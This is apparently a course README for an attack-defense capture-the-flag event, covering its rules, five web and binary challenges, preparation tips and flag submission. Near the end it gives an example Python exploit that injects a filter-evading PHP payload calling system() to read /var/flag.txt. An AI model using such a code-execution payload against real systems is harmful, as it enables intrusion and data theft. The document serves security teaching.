




# Week14 CTF: Attack-Defense CTF

An Attack/Defense Capture the Flag is a type of cybersecurity competition where competing teams attempt to find security vulnerabilities in services run by the opposing teams. Each team works finding vulnerabilities in other team’s services while protecting their own, hence “attack/defense”.


*(image from* [CTF.zone](https://ctf.zone/ctfinfo.html)*)*

All teams are given an image to host on servers, usually a Linux distribution with code for several services that the game creators made. For example, in this year’s [saarCTF](https://ctf.saarland/), there were some simple websites for food reviews and calendar events hosted on a linux server. All teams get the same images, so if you find a vulnerability in your server, you can use it to attack other teams’.

When the competition starts, you gain access to the servers and can start reading the code and looking for vulnerabilities. The game admins will use your service (programmatically) as normal users and place “flags” for other teams to steal if they find vulnerabilities. For example, they might create private events in the calendar app mentioned earlier, and the flags would be in the details of the event.

Vulnerabilities are generally intentionally placed, though sometimes game creators make mistakes and there are extra unintentional attack paths. Competitions tend to have a range of easy to more complicated exploits.

A simple exploit might be finding that the `view_calendar_event` function takes in a uid from the request, and doesn’t validate that this is the same user as the logged in user. A more complicated exploit could involve a buffer overflow leading to a remote code execution. There’s also been exploits using less traditional methods, like adversarial machine learning: [fausecteam/faustctf-2018-jodlgang](https://github.com/fausecteam/faustctf-2018-jodlgang).

After finding a vulnerability, the next step is to build a script to exploit it on other teams’ servers and patch the issue on your own server. Points are determined based on how many opposing teams you’re able to steal flags from and how many flags you successfully prevent other teams from stealing.

## Rules

Competition start time: 2021-12-13 21:00

Competition end time: 2021-12-16 21:00

Time per round: 5 minutes (864 rounds in total)

Score per round: 50

Challenges:

* Sanity_check (web)
* Calculator (web)
* Binary (pwn)
* Image manipulator (web)
* Blog (web)

Base score per challenge: 1000

Total teams: 50

Flag location: `/var/flag.txt`

SSH user: `ctf`

SSH default password: `123456`

## Challenges

The AWD CTF has 5 challenges in total. Involving 4 web and 1 pwn.

### Sanity_check

This challenge is simple PHP script:



The script requires one parameter called `str`, and gives out the length of the string.

For example, a valid request might be:

```http
http://ip:port/?str=some_example_string
```

The page would response the following text:

```
some_example_string length is 19
```

### Calculator

The website is written in PHP.

The calculator has only 1 function: to calculate the input equation of user.


An example input of `2*3` would result in `6`.

### Binary

This challenge doesn't offer any source code.

However, you can modify the binary ELF file with any hex editor or de-compiler.

First of all, we are given 5 choices:

```
1.register
2.login
3.reset passwd
4.play game
5.logout
Your choice:
```

We need to register and then login. After that, we can play this game.

By choosing 4, the game begins:

```
1.name your city
2.rename your city
3.manage your shop
4.manage your army
5.show your city
6.battle
7.back
Your choice:
```

We can name cities, manage shops, and manage army. After everything is done, we would like to battle.

However, the game is too difficult. Most of the time, we only have the bad ending.

### Image manipulator

This web app allows us to manipulate the images.



We can upload a file and modify those information:

```
1. width and height
2. crop the image
3. rotate the image
4. flip
5. mirror
6. grayscale
7. sepia
```

Let's take a look at the source code.

In the `/usr/bin/gs` file is the `ghostscript`. Ghostscript is an interpreter for PostScript Portable Document Format (PDF) files.

```
app
├── App.php
├── Driver
│   ├── Base.php
│   ├── Convert.php
│   ├── Image.php
│   └── index.html
├── Template
│   ├── index.html
│   └── main.html
├── assets
│   ├── index.html
│   └── main.css
├── inc.php
└── index.php
```

Under the `app` folder is the main structure of the website. The website is written by PHP. An `index.php` hooks all the files to work together.

`inc.php`: defines some folder location.

`App.php`: main logic of the website. Sends all requests to target file.

`assets`: static pages.

`Template`: static web html style.

`Driver`: you should look at files under this folder and find out the vulnerabilities.

### Blog

Blog is a fully functional blog website with all pages you need.

The website contains a database of MySQL on 3306. And based on the zblog template.

Blog has a CMS and you should check out the installation first.



Let's look at the source code.

```
src
├── feed.php
├── index.php
├── search.php
├── zb_install
├── zb_system
└── zb_users
```

There are 3 major folders under the source code.

Firstly, `zb_install` takes all the installation options and instructions to setup a website.

`ab_system` is the main function of the website admin panel.

`zb_users` takes all user functions.

## Notification

1. The AWD platform is using `HTTP`, which means it's possible to analyze network traffic of others.
2. No root privilege.
3. Using of 0day is **valid**.
4. DDoS or other brute DoS are **NOT valid**.
5. Never share flag with others.

## Prepare

Before the AWD CTF, you should check the following list:

* Change the default password for each game box.
* Check all the services are running well.
* Scan the ports of other players.
* Read the source code and patch the vulnerabilities.
* Adjust your script to submit flag.

## Flag Submitter

```
curl -X POST http://www.compass.college/api/flag -H "Authorization: <token>" -d "{ \"flag\": \"your_flag_here\" }"
```

GitHub repo of an example flag submitter:

[https://github.com/0xaww/awd-submit-flag](https://github.com/0xaww/awd-submit-flag)



## Exploit Script

Using manual exploit is not efficient. By using automate script to exploit and submit the flag.

An example exploit script of a SSTI vulnerability looks like:

```python
import requests
url = ""
data = {
    "method": "__construct",
    "filter[]": "assert",
    "method": "get",
    "get[]": "die((new ReflectionFunction('syste'.'m'))->invoke('cat /var/flag.txt'))",
}
print(requests.post(url, data=data).text)
```

The script can be configured to run every 5 minutes or using flag submitter to hook the exploit script.
